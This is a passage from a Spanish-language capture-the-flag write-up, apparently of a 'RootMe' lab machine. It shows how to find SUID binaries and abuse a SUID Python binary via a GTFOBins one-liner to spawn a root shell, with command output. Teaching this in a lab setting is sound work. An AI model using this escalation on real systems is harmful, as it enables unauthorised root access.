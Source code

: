 Ahora ya podremos hacer Ctrl+L para limpiar la pantalla, Ctrl+C etc....

# [](#header-4)Escalado de Privilegios
Esta maquina dice en la plataforma que se basa en explotar los **SUID**, asique vamos a buscar los permisos SUID
```shell
www-data@rootme:/$ find / -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
```

Y vemos que _/usr/bin/python_ es un permiso **SUID**, asique iremos a **GFTOBins** para ver si podemos convertirnos en sudo y vemos que si que tiene explotacion de servicios **SUID**
[GFTOBins](https://gtfobins.github.io/#)
![](https://alvar-yoel.github.io/images/RootMe/python.PNG)

Entraremos en **SUID** y veremos el codigo que tendremos que poner
![](https://alvar-yoel.github.io/images/RootMe/SUID.PNG)

Ahora lo probaremos en la maquina victima y chim pum tenemos **root** en la maquina
```shell
www-data@rootme:/$ python -c 'import os; os.execl("/bin/bash", "sh", "-p")'

sh-4.4# whoami 
root
```
